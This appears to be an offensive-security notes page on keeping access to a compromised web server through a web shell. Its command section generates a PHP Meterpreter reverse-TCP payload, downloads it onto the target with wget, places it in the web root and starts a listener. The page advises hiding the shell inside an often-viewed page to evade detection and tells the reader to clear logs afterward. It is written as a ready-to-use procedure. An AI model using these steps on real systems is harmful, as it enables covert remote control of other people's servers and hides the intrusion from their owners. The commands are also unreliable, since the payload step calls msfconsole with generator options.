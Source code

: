 --- ---

<h2>General</h2>

A web shell is a type of backdoor that allows an attacker to remotely control a compromised system through a web browser. A web shell is typically a script, written in a language such as PHP or ASP, that is uploaded to a web server. Once the script is uploaded, the attacker can use a web browser to connect to the server and execute commands on the system through the web shell.

Web shells can be used to maintain persistence on a compromised system by providing the attacker with a way to remotely access and control the system over an extended period of time. The web shell can be configured to start automatically when the system is booted, or it can be triggered manually by the attacker whenever they want to access the system.

Web shells can be used to perform a variety of malicious actions, such as uploading and downloading files, modifying system settings, and executing arbitrary code on the system. They can also be used to gather sensitive information, such as passwords and other sensitive data.

---

<h2>Commands</h2>

Requirements, The server need to run a webserver to create this persistance

Meterpreter Backdoor
```
# Generate the Payload
msfconsole -p php/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e php/base64 -f raw > Evilbackup.php      ---> If we use PHP

# Edit the Payload (Add php tags)
<?php
PAYLOAD
?>

# Transfer the file to the target Machine
python3 -m http.server

# Save the folder under ww
wget http://IP/Evilbackup.php
chmod +x Evilbackup.php
mv Evilbackup.php ~/var/www/html
```

Take not that you could add the code in a page that get view often also, this could be a great way to evade detection since your not creating a new file and hidding it trougt other codes

Exploit the WebShell (set lisener)
```
msfconsole
set payload php/meterpreter/reverse_tcp (Also set LHOST and LPORT)
run
```



===Dont Forget to Clear Tracks (Check [[🧹 CLEAR Logs & History]])===
